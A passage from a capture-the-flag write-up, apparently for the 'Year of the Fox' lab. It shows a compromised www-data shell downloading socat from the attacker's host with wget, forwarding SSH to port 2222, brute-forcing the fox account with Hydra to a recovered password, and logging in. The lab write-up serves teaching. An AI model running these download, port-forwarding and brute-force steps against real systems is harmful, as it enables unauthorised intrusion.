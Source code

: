 We can use `socat` to open another port (e.g. `2222`) and redirect the traffic to port `22` on localhost. As `socat` is not available on the target, let's download it from our Kali machine:

~~~
www-data@year-of-the-fox:/etc/ssh$ cd /tmp
www-data@year-of-the-fox:/tmp$ wget http://10.8.50.72:8000/socat
www-data@year-of-the-fox:/tmp$ chmod +x socat
www-data@year-of-the-fox:/tmp$ ./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22
./socat TCP-LISTEN:2222,fork TCP:127.0.0.1:22
~~~

## Brute force SSH

Once this is done, a SSH connection is now available on port `2222`. Time for a new brute force attack (notice that the password is also randomly generated at boot time).

~~~
kali@kali:/data/Year_of_the_Fox/files$ hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.189.152:2222
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-30 21:07:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.189.152:2222/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344223 to do in 1358:22h, 16 active
[2222][ssh] host: 10.10.189.152   login: fox   password: raymond
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-30 21:09:53
~~~

## User flag

Now that we have fox's password, let's connect and get the user flag.

~~~
kali@kali:/data/Year_of_the_Fox/files$ ssh fox@10.10.189.152 -p 2222
fox@10.10.189.152's password: 


	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\


                                                                  
fox@year-of-the-fox:~$ pwd
/home/fox
fox@year-of-the-fox:~$ ll
total 36
drwxr-x--- 5 fox  fox  4096 Jun 20 02:43 ./
drwxr-xr-x 4 root root 4096 May 28 21:16 ../
lrwxrwxrwx 1 fox  fox     9 May 28 21:16 .bash_history -> /dev/null
-rw-r--r-- 1 fox  fox   220 May 28 21:10 .bash_logout
-rw-r--r-- 1 fox  fox  3771 May 28 21:10 .bashrc
drwx------ 2 fox  fox  4096 May 28 21:16 .cache/
drwx------ 3 fox  fox  4096 May 28 21:16 .gnupg/
-rw-r--r-- 1 fox  fox   807 May 28 21:10 .profile
drwxr-xr-x 2 fox  fox  4096 Jun 20 02:08 samba/
~~~